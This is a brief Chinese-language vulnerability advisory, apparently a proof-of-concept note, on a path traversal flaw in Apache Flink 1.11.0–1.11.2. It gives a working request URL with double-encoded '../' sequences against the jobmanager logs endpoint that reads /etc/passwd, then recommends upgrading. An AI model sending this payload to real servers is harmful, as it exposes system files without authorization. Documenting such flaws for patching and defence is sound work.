

### 简介 ###

Apache Flink是一个开源流处理框架，具有强大的流处理和批处理功能。

### 影响版本 ###

1.11.0

1.11.1

1.11.2

### 漏洞利用 ###

POC:

    http://127.0.0.1/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
    

### 修复建议 ###

所有用户升级最新版